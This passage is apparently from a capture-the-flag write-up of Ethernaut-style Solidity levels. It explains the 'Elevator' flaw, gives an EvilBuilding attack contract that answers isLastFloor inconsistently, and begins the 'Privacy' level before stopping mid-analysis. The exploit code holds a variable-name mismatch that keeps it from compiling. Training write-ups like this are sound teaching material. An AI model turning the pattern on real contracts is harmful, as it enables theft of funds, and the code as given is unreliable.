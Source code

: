 --------
**Analysis**

![Elevator method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138015/32f18465b7eeaabaeced84613e4e573847463c7b34aefd6d467fdd9d9f04d851_rpolcp.png)  
This function uses the method the msg.sender to know if the floor is accessible or not. The problem here is :

1. `Elevator` contract has no control over the logic of the `Building` contract.
2. The `goTo` function is actually `public` which makes it possible to have some state changes inside it.

And all we need is to make the isLastFloor function returns false at first so we get inside the if block and true to set top.

-----
**Exploitation**

```js
interface Elevator { 
 function goTo(uint _floor) external;
}

contract EvilBuilding { 
    uint count= 0; 
    function isLastFloor(uint) external returns (bool){ 
        count ++ ; 
        return count%2==0 ? true : false; // The first time will pass false the second true
    }

    function callAttack(address ElevatorAddress) public {
        Elevator elevatorContract = Elevator(ElevatorAddress);
        elevator.goTo(10); // put any number here really
    }
}
```

Challenge solved ✅

## Privacy

**Challenge description**

The creator of this contract was careful enough to protect the sensitive areas of its storage.
Unlock this contract to beat the level.

--------
**Analysis**

![Privacy storage](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138026/ff541ef577bf0b185d9bd2266bc82b7cef5b80e9c30195d89a0ba04fb1f9e21e_sfqspe.png)  

As we said before, every variable in the storage can be accessed all we have to do is find which slot it's residing in. Same applies here.

We got the following:
